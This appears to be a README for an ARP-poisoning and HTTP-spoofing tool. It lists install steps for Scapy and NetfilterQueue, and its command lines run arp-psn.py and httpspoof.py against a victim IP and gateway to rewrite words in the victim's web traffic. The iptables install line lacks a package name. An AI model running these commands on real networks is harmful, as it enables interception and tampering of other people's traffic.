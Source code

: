 ### Install Scapy
```
sudo apt-get install python3-scapy
```

### Install iptables
```
sudo apt-get install
```

### Install NetfilterQueue
```
git clone https://github.com/kti/python-netfilterqueue.git
cd python-netfilterqueue
pip3 install Cython --install-option="--no-cython-compile"
python3 setup.py build_ext --force
python3 setup.py install
```

### Open one terminal and run arp-psn.py
```
sudo python3 arp-psn.py <victim ip> <gateway ip>
```
  
### Open another terminal and run httpspoof.py
```
sudo python3 httpspoof.py <victim ip> <word to replace> <replacement word>
```
**Note:** the word to replace and replacement word must have the same number of characters

